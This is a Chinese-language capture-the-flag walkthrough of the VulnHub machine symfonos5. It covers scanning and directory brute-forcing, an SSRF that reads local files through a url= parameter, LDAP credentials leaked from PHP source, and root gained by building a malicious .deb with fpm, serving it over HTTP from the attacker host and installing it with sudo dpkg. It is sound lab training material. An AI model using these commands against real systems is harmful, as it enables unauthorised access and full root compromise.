


# symfonos5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-5,415/

**Description**

Beginner real life based machine designed to teach people the importance of understanding from the interior.

Tested on VMware and Virtualbox

**知识点**
- ssrf
- ldap
- dpkg 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.151` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.151
```



SSH、web、ldap,ldap 一般比较少见,先从熟悉的 web 开始把


老样子,啥都没有,爆破目录,字典自 https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/Directory/fast-scan.txt
```bash
./gobuster dir -u 192.168.141.151 -w fast-scan.txt
```


访问下这个 admin.php 和 home.php


home.php 会将我重定向到 admin.php,看看 html 源码

```
curl http://192.168.141.151/home.php
```


这个熟悉的 127.0.0.1 看上去是 ssrf 啊,读文件试试

# 中期-漏洞利用

```
curl http://192.168.141.151/home.php\?url\=file:///etc/passwd
```


尝试读 admin.php 的源码
```
curl http://192.168.141.151/home.php\?url\=file:///var/www/html/admin.php
```



看上去是 LDAP 的凭证。

ldap管理工具有 ldapadmin，JXplorer 等,这里就用 ladpadmin 测试了

访问 https://sourceforge.net/projects/ldapadmin/ 下载安装包,我下的是windows版的,就不演示 linux 平台了


连接后可以看到有个 zeus 用户和其密码

SSH 连接上去,寻找提权的方法

---

# 后期-提权

```
sudo -l
```


dpkg 以 root 权限运行,上 https://gtfobins.github.io/ 找下 dpkg 相关的内容

在 kali 上运行
```
gem install --no-document fpm
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF

python -m SimpleHTTPServer 8080
```

完成后靶机下载POC
```
wget 192.168.141.134:8080/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```


提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
